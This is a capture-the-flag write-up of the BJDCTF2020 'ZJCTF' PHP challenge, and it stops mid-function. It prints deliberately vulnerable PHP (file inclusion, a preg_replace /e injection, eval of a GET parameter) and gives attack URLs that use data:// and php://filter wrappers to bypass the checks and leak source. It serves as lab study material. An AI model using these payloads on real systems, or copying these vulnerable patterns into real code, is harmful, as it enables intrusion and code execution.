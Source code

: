 



## [BJDCTF2020]ZJCTF，不过如此

```php
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```



```php
http://469abb72-79e7-4c12-a595-02f51e1ddfa3.node4.buuoj.cn:81/?text=data://text/plain,I%20have%20a%20dream&file=next.php
```



![img](https://img-blog.csdnimg.cn/98615e25dc3c4948b02aed0b6da06fed.png)





```php
http://469abb72-79e7-4c12-a595-02f51e1ddfa3.node4.buuoj.cn:81/?text=data://text/plain,I%20have%20a%20dream&file=php://filter/convert.base64-encode/resource=next.php
```



![img](https://img-blog.csdnimg.cn/267d9e7e618142d2ad75991fe73b9c74.png)



```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
```